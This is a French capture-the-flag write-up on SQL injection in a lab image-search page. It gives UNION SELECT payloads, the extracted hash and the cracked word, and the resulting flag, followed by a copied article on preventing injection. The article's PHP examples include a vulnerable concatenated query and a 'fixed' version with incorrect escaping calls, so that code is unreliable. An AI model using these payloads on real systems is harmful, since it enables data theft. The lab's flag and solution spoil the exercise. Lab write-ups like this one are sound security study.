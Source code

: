 page : http://localhost:8080/index.php?page=searchimg

input TRUE nous montre que les injections SQL sont ici aussi possible.

on test directement la commande trouvee via lautre injection, pour recuperer le nom de la table et de ses colonnes
TRUE UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database()

on obtient
Nsa, id, url, title, comment

en affichant les differentes colonnes on obtientun resultat concluant avec cette commande :
TRUE UNION SELECT url, comment FROM list_images

ID: TRUE UNION SELECT url, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png

via le meme site que lautre injection :
1928e8083cf461a51303633093573c46 : albatroz

echo -n albatroz | shasum -a 256
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -

le flag est donc f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


DANGER :
dump les infos de l'integralite dune base, dans le pire des cas possibilites de modifier integralement les champs de la base (pop push column)


PROTECTION :
parser les inputs avec des regex ou des fonctions comme mysql_real_escape_string() qui retire les chars speciaux de l'input

Comment protéger vos bases de données d’une injection SQL ?
Vous pouvez mettre en place différentes mesures pour empêcher une attaque par injection SQL de votre système de base de données. Par conséquent, il est nécessaire de s’attarder sur l’ensemble des composants impliqués, tels que le serveur, sur chacune des applications mais aussi sur les systèmes de management de base de données.

Etape 1 : superviser la saisie automatique des applications

Testez et filtrez les méthodes et paramètres utilisés par les applications connectées lors de vos saisies dans la base de données. Les données remises devraient toujours être en accord avec le type de données attendu. Si un paramètre numérique est requis, vous pouvez le vérifier avec un script PHP à l’aide de la fonction is_numeric(). En ce qui concerne les filtres, les caractères spéciaux correspondants sont ignorés. Un autre point important est de s’assurer que les applications n’émettent pas de messages d’erreurs externes qui indiquent des informations sur le système utilisé ou les structures de la base de données.

Entre-temps, d’autres pratiques se sont largement répandues, comme ce que l’on nomme les Prepared Statements qui peuvent être utilisées avec de nombreux systèmes de management de banques de données. Ces déclarations prédéfinies étaient à l’origine utilisées pour exécuter des requêtes fréquentes, mais du fait de leur structure, elles permettent également de réduire les risques d’injection SQL. En effet, les instructions paramétrées transfèrent la commande SQL réelle des paramètres séparément de la base de données. Seul le système de management de la base de données lui-même relie les deux et masque ainsi automatiquement les caractères spéciaux importants.

Etape 2 : s’assurer de la protection complète du serveur

La sécurité du serveur sur lequel a cours votre système de gestion de base de données joue naturellement un rôle primordial dans la prévention contre les injections SQL. La première étape est donc de renforcer votre système d’exploitation selon le schéma établi :

Installer ou activer seulement les applications et services qui sont pertinents pour faire fonctionner la base de données.
Supprimer tous les comptes utilisateurs qui ne sont pas nécessaires.
S’assurer que toutes les mises à jour des systèmes et programmes pertinents sont installés.
Plus votre projet Web exige des mesures de sécurité importantes, et plus vous devrez envisager l’utilisation en amont de systèmes de détections d’intrusion (IDS) ou de systèmes de prévention d’intrusions (IPS). Cela fonctionne avec différents systèmes de reconnaissance pour identifier en amont les attaques sur le serveur, émettre des avertissements et dans le cas d’IPS de faire déclencher automatiquement les contre-mesures correspondantes. Un processus ALG (Application Layer Gateway) peut également être une mesure de protection judicieuse, en surveillant le trafic de données entre les applications et le navigateur Web directement au niveau de l’application.

Etape 3 : renforcer les bases de données et utiliser des codes sûrs

Tout comme votre système d’exploitation, les bases de données doivent être débarrassées de tout élément inutile et être mises à jour régulièrement. A cette fin, éliminez toutes les procédures enregistrées dont vous n’avez pas besoin et désactivez tous les services et comptes utilisateurs inutiles. Installez un compte spécifique pour votre base de données, qui sera prévu simplement pour y accéder depuis le Web, et qui sera pourvu de droits d’accès très restreints. Enregistrez par ailleurs dans votre base de données toutes les données sensibles de manière chiffrée, comme par exemple vos mots de passe.

Pour les Prepared Statements, il est urgemment recommandé de ne pas utiliser le module PHP mysql mais de choisir à la place mysqli ou PDO. De cette manière, vous pourrez par la même occasion vous protéger avec des codes sûrs. La fonction mysqli_real_escape_string() du script PHP permet par exemple d’éviter d’émettre des caractères spéciaux aux bases de données SQL sous leur forme originale. Si vous prenez par exemple les lignes de code ci-dessous :

$query = "SELECT * FROM users 
WHERE username= '" . $_POST['username'] . "' 
AND password= '" . $_POST['password'] . "'";
Pour les rallonger avec la fonction mentionnée :

$query = "SELECT * FROM users 
WHERE username= '" . mysqli_real_escape_string($_POST['username']) . "' 
AND password= '" . mysql_real_escape_string($_POST['password']) . "'";
